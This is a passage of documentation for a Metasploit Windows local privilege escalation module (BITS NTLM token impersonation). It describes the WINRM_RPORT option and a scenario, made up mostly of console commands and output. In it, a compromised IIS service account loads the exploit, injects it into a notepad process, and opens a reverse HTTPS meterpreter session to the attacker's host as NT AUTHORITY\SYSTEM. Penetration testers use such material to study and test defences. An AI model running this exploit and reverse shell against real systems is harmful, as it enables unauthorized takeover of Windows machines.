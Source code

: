 WINRM_RPORT &#8594; Port on which the exploit impersonating a genuine WinRM service will listen on remote target. Default
value is default WinRM port (5985). However, in some Windows configuration, WinRM default port can be set to 47001. This is
the case for instance if no WinRM listener is set. More information regarding this here:
https://docs.microsoft.com/en-us/windows/win32/winrm/obtaining-data-from-the-local-computer
If the exploit fails, you may want to try other ports commonly used by WinRM.

## Scenarios

Let's assume you have in any way compromised a service process such as IIS for instance. So your meterpreter session should
look like this:
```
meterpreter > sysinfo
Computer        : DESKTOP-5VBUUE9
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : fr_FR
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
```

By default, service users hold the SE_IMPERSONATE_NAME privilege so this exploit is mainly designed to escalate from
a service account to local system. Lab experiments has shown it works for both LOCAL SERVICE and NETWORK SERVICE:

```
msf exploit(exploit/multi/handler) > use exploit/windows/local/bits_ntlm_token_impersonation
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/bits_ntlm_token_impersonation) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https

msf exploit(windows/local/bits_ntlm_token_impersonation) > exploit

[*] Started HTTPS reverse handler on https://192.168.1.33:443
[*] Executing automatic check (disable AutoCheck to override)
[!] BITS is currently running. It must be down for the exploit to succeed.
[!] BITS is running. Don't panic, the exploit should handle this, but you have to wait for BITS to terminate.
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[+] Process 5044 launched.
[*] Injecting exploit into 5044...
[*] Exploit injected. Injecting payload into 5044...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] https://192.168.1.33:444 handling request from 192.168.1.248; (UUID: fsjcbuvp) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 2 opened (192.168.1.33:444 -> 192.168.1.248:51077) at 2020-12-11 08:56:29 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
